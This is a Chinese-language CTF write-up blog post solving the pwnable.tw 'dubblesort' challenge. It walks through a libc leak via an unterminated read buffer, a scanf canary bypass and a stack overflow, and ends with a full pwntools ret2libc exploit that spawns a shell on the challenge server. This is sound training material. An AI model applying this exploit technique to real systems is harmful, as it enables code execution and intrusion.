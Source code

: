 # Challenges 100 Week 6



|      Challenges       |  Tricks  |
| :-------------------: | :------: |
| pwnable.tw-dubblesort | `canary` |

新年快乐！没想到吧！春节我也不消停...不过做题的速度要变慢了，Sakura师傅还要交这周的作业，下周放一个假，打算把how2heap学完，做点例题。

<!--more-->

# dubblesort

这个出题人的英文是不是不太好？

## checksec

```shell
[*] '/home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

所有保护全开。

## ida

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int count; // eax
  unsigned int *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int _count; // [esp+18h] [ebp-74h] BYREF
  unsigned int num[8]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  init();
  __printf_chk(1, (int)"What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, (int)"Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &_count);
  count = _count;
  if ( _count )
  {
    v4 = num;
    for ( i = 0; i < _count; ++i )
    {
      __printf_chk(1, (int)"Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      count = _count;
      ++v4;
    }
  }
  bubblesort(num, count);
  puts("Result :");
  if ( _count )
  {
    for ( j = 0; j < _count; ++j )
      __printf_chk(1, (int)"%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    check_canary();
  return result;
```

程序看上去是没有任何问题，漏洞在程序函数的实现上。

使用`read`函数读取的`buf`是用`\x0a`进行截断的。而`printf`在输出字符串的时候是用`\x00`进行截断，所以可以用来泄露栈上的内容。而通过输入数字的数量我们可以实现栈溢出。

在我们输入的字符串的附近：

```shell
0f:003c│ ecx esi  0xffffcdac ◂— 'aaaabbbb\n'
10:0040│          0xffffcdb0 ◂— 'bbbb\n'
11:0044│          0xffffcdb4 ◂— 0xa /* '\n' */
12:0048│          0xffffcdb8 —▸ 0x56555034 ◂— push   es
13:004c│          0xffffcdbc ◂— 0x16
14:0050│          0xffffcdc0 ◂— 0x8000
15:0054│          0xffffcdc4 —▸ 0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
```

有一个(\_GLOBAL_OFFSET_TABLE_)，明显它的地址的libc中的，查看它在libc中的偏移。

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x56555000 0x56556000 r-xp     1000 0      /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0x56556000 0x56557000 r--p     1000 0      /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0x56557000 0x56558000 rw-p     1000 1000   /home/niebelungen/Desktop/pwnable.tw/dubblesort/dubblesort
0xf7e01000 0xf7e02000 rw-p     1000 0      
0xf7e02000 0xf7fb2000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb2000 0xf7fb3000 ---p     1000 1b0000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb5000 r--p     2000 1b0000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb5000 0xf7fb6000 rw-p     1000 1b2000 /lib/i386-linux-gnu/libc-2.23.so
```

0xf7fb5000-0xf7e02000=0x1b3000，这里我们加载的是本地libc所以查看libc的节信息。

```shell
  [32] .got.plt          PROGBITS        001b3000 1b2000 000030 04  WA  0   0  4
```

其为`.got.plt`节，再查看服务器上libc的偏移

```shell
  [31] .got.plt          PROGBITS        001b0000 1af000 000030 04  WA  0   0  4
```

> .got
>
> This is the GOT, or Global Offset Table. This is the actual table of offsets as filled in by the linker for external symbols.
>
> .plt
>
> This is the PLT, or Procedure Linkage Table. These are stubs that look up the addresses in the `.got.plt` section, and either jump to the right address, or trigger the code in the linker to look up the address. (If the address has not been filled in to `.got.plt` yet.)
>
> .got.plt
>
> This is the GOT for the PLT. It contains the target addresses (after they have been looked up) or an address back in the `.plt` to trigger the lookup. Classically, this data was part of the `.got` section.


```assembly
.text:00000AF9                 mov     eax, 0
.text:00000AFE                 mov     edx, [esp+7Ch]
.text:00000B02                 xor     edx, large gs:14h
.text:00000B09                 jz      short loc_B10
.text:00000B0B                 call    check_canary
```

经过调试，发现canary被放入了`esp+0x7c`的位置。因为会进行排序，而为了修改返回地址，我们会遇到canary。所以在canary前输入比其小的数字‘0’，通过输入符号绕过canary，之后输入比canary大的内容。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./dubblesort'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10101)

elf = ELF(binary,checksec=False)
libc=ELF('./libc_32.so.6',checksec=False)
p.sendline('a'*0x18)

libcbase=u32(p.recvuntil('\xf7')[-4:])-0xa-0x1b0000
print hex(libcbase)
system=libcbase+libc.symbols['system']
bin_sh=libcbase+0x00158e8b

p.sendline('35')
payload='0'*0x18+'-'+9*str(system)+str(bin_sh)

for i in range(24):
    p.sendline('0')
    
p.sendline('-')
for i in range(9):
    p.sendline(str(system))

p.sendline(str(bin_sh))

p.interactive()
```


